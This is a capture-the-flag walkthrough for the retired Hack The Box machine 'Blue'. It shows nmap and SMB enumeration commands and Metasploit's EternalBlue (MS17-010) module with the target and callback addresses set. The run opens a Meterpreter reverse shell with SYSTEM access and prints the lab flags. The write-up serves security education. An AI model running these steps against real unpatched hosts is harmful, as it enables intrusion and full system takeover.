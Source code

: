 ```yaml
---
title: "Blue (HTB) — Walkthrough"
date: 2025-09-17
tags: ["htb","windows","smb","ms17-010","privesc"]
series: ["Hack The Box — retired"]
difficulty: "Easy"
platform: "Hack The Box"
summary: "Exploiting MS17-010 (EternalBlue) on a Windows 7 SP1 target. Recon, SMB enumeration, exploitation, and proof of SYSTEM access."
---
```


> ⚠️ **Spoiler warning**: This covers a retired HTB machine. IPs and hostnames are redacted. This writeup documents my playthrough of the retired Hack The Box machine **Blue**. 

The VPN IPs shown below are the HTB-assigned VPN addresses used during the box (left intact here for reproducibility). Do not attempt this on non-authorised or active systems.

# Blue (HTB) — Walkthrough

## Overview
- **Platform:** Hack The Box (retired)  
- **Target OS:** Windows 7 Professional SP1  
- **Focus:** SMB enumeration → EternalBlue (MS17-010) → SYSTEM shell  
- **Difficulty:** Easy

---

## Recon

Initial scan:

```bash
nmap -sV -sC -oN scans/blue-initial 10.129.242.117
```
**Result highlights (relevant line)**

445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1
A full scan confirmed SMB was exposed and appeared to be running SMBv1.
![Nmap ports output showing SMB 445 open](/images/blue/nmap.png)


---

## SMB Enumeration

**Anonymous enumeration with enum4linux**

```bash
enum4linux -a 10.129.242.117
```
![enum4linux for SMB enumeration](/images/blue/smb_enumeration.png)

![enum4linux interesting output](/images/blue/smb_enumeration.png)

**Anonymous SMB session also succeeded**

```bash
smbclient -L //10.129.242.117/ -N
```

Shares observed:

ADMIN$    C$    IPC$    Share    Users

Given Windows 7 + SMBv1 exposure, EternalBlue (MS17-010) looked likely.
![SMB shares](/images/blue/smb_shares.png)

---

## Exploitation (MS17-010 / EternalBlue)

Check target with Metasploit's SMB version scanner:

```msfconsole
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.129.242.117
msf6 auxiliary(scanner/smb/smb_version) > run
```
**Confirmed vulnerable** 

[+] 10.129.242.117:445 - Host is running Windows 7 Professional SP1
![Metasploit auxiliary module - SMB scanner](/images/blue/metasploit_scanner.png)


**Host is likely VULNERABLE to MS17-010!**

---

## Launch the exploit:

```msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.129.242.117
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
![Metasploit exploit module - ms17_010_eternalblue](/images/blue/metasploit_exploit.png)


**Success:**

[+] Meterpreter session 1 opened
![Meterpreter session to shell](/images/blue/meterpreter_shell.png)


---

## Privilege Escalation

Drop into an interactive shell from Meterpreter:

```meterpreter
meterpreter > shell
```
```interactive shell
C:\Windows\system32> whoami
```
**Result:**

nt authority\system
The exploit provided full SYSTEM privileges.

**User flag:**

```interactive shell
C:\Users\haris\Desktop> type user.txt
```
"1b3265edfce880834b5e8e8fc8ac5a18"
![User flag found](/images/blue/user-flag.png)

**Root flag:**

```interactive shell
C:\Users\Administrator\Desktop> type root.txt
```
"76a957ccd469d05e2883b49b77079847"
![Root flag found](/images/blue/root-flag.png)

---

## Takeaways

Always check SMB version — legacy SMBv1 is a red flag.

EternalBlue is a classic exploit; patched since 2017, but still useful to study.

Metasploit automates exploitation, but understanding the underlying vulnerability (buffer overflow in SMBv1) is important.

Enumeration (enum4linux, smbclient) confirmed access, but exploitation was the real path in this box.

---

## Resources

MS17-010 (Microsoft Security Bulletin).

Hack The Box — retired machines archive.

My GitHub repo (basil9099.github.io) with scans/notes.


